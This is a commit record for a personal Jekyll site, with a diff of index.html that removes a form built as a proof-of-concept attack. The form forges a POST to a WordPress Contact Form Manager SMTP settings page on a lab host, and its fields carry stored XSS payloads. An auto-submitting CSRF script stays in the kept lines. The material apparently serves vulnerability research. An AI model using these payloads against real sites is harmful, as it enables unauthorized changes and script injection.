

Before and after one commit to rcmccartney/rcmccartney.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 669 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -23,18 +23,6 @@ layout: default
     document.csrfForm.submit();
   </script>
 
-  <form id="f1" method="POST" action="http://wpdistillery.vm/wp-admin/admin.php?page=contact-form-manager-manage-smtp&action=add-smtp">
-     <table>
-        <tr><td>xyz_cfm_SmtpAuthentication<td><input name="xyz_cfm_SmtpAuthentication" value="true" size="100"></tr>
-        <tr><td>xyz_cfm_SmtpEmailAddress<td><input name="xyz_cfm_SmtpEmailAddress" value="<svg onload=alert(document.domain)>" size="100"></tr>
-        <tr><td>xyz_cfm_SmtpHostName<td><input name="xyz_cfm_SmtpHostName" value="<svg onload=alert(document.domain)>" size="100"></tr>
-        <tr><td>xyz_cfm_SmtpPassword<td><input name="xyz_cfm_SmtpPassword" value="<svg onload=alert(document.domain)>" size="100"></tr>
-        <tr><td>xyz_cfm_SmtpPortNumber<td><input name="xyz_cfm_SmtpPortNumber" value="25" size="100"></tr>
-        <tr><td>xyz_cfm_SmtpSecuirity<td><input name="xyz_cfm_SmtpSecuirity" value="notls" size="100"></tr>
-     </table>
-  </form>
-  <button onclick="document.getElementById('f1').submit()">Submit</button>
-
   <ul class="post-list">
     {% for post in site.posts %}
       <li>
```
